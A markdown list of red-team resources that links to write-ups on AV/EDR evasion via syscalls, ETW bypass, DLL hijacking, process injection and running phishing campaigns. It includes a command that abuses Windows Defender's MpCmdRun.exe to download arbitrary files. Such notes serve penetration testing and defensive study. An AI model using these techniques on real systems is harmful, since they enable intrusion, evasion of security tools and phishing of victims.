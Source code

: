 ## Approach
* [assume breach?](https://twitter.com/reybango/status/1308608385298898944)

## .NET ETW bypass by _xpn_
* https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/

## Windows syscalls
* https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
* https://github.com/jthuraisamy/SysWhispers
* https://jhalon.github.io/utilizing-syscalls-in-csharp-1/
* https://jhalon.github.io/utilizing-syscalls-in-csharp-2/
* https://www.solomonsklash.io/syscalls-for-shellcode-injection.html

## DLLs
* https://itm4n.github.io/windows-dll-hijacking-clarified/
* https://github.com/monoxgas/Koppeling (DLL hijacking)

## Injections
* https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/
* https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/

## Situational Awareness
* https://ired.team/offensive-security/enumeration-and-discovery/windows-event-ids-for-situational-awareness

## Phishing
* [Post exploitation creds](https://medium.com/@shantanukhande/post-exploitation-creds-5a8de8676792)
* [Check the phishing server / landing page response](https://httpstatus.io/)
* [Check your phishing e-mail quality](https://www.mail-tester.com/)
* [Recipe for a successful phishing campaign (part 1/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-1-2-dc23d927ec55)
  * setup SPF, DKIM, PTR, MX and general approach
* [Recipe for a successful phishing campaign (part 2/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-2-2-68552806dcba)
  * setup DNS, gophishg, general tips for better campaign

## Download and execute

* [Download via Defender](https://twitter.com/mohammadaskar2/status/1301263551638761477)
![Defender download](https://pbs.twimg.com/media/Eg8ESSWWAAACTGo?format=jpg&name=large)
* (You can use C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path> to download your file using Windows defender itself.)
  
## Reports and management
* [Manage Red Team domain](https://posts.specterops.io/being-a-good-domain-shepherd-part-2-5e8597c3fe63)
* [Domain Shepherd](https://github.com/GhostManager/Shepherd)

## SSH 
* If you are always looking through your ssh conf files for a specific host entry, this simple bash function might be just what you need. 

```
function getssh() {
  awk "/$1/,/^$/" < ~/.ssh/include/*
}
```

![SSH configs](https://pbs.twimg.com/media/EgW_CXzXsAEsh0r?format=png&name=small)
